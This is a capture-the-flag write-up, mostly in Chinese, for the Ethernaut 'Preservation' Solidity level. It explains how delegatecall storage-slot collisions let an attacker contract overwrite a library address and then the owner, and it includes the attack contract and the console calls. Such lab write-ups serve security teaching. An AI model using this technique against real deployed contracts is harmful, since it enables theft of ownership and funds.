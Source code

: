 ## 0x01 Task

```javascript
pragma solidity ^0.4.23;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

## 0x02 Review

复习一下`delegatecall()`

![image-20200508213353951](https://picturefac.oss-cn-hangzhou.aliyuncs.com/img/20200508213355.png)

- `Delegate` call is a special, low level function call intended to invoke functions from another, often library, contract.
- If Contract A makes a `delegatecall` to Contract B, it allows Contract B to freely mutate its storage A, given Contract B’s *relative* storage reference pointers.
- 这就是说如果在合约A中`delegatecall`调用了合约B中的函数，并且我可以控制合约B的话，那我也可以修改合约A中的东西。

再复习一下合约的存储约定：

![image-20200508213627166](https://picturefac.oss-cn-hangzhou.aliyuncs.com/img/20200508213628.png)

- Ethereum allots 32-byte sized storage *slots* to store state. Slots start at index `0` and sequentially go up to 2²⁵⁶ slots.
- Basic datatypes are laid out contiguously in storage starting from position `0,` then `1`, until `2²⁵⁶-1`.
- If the **combined size** of sequentially declared data is **less than 32 bytes**, then the sequential data points are packed into a single storage slot to optimize space and gas.

结合`delegatecall`，理论上如果能把合约A和B的slots一一对应起来，就可以精准修改双方合约中的变量。

## 0x03 Solution

首先看源代码的下面片段：

```javascript
// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

```javascript
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
  }
```

我可以在console调用`setFirstTime`函数，来调用合约`LibraryContract`中的setTime，发现没有，我其实可以通过修改`LibraryContract`中的`storedTime`来修改`timeZone1Library`，因为它们在slot0上一一对应。

创建一个攻击合约：

```javascript
pragma solidity ^0.4.23;

contract BadLibraryContract {
    address public timeZone1Library; // SLOT 0
    address public timeZone2Library; // SLOT 1
    address public owner;            // SLOT 2
    uint storedTime;                 // SLOT 3

     function setTime(uint _time) public {
        owner = msg.sender;
    }
}
```

在console中，查看owner状态

```javascript
await contract.owner()
```

注意攻击合约中的`setTime`名字不要变动，因为在原代码中是写死的

```javascript
// Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));
```

在console中进行两次调用就行：

`await contract.setFirstTime("[BadLibraryContract Addr]")`

`await contract.setFirstTime(1)`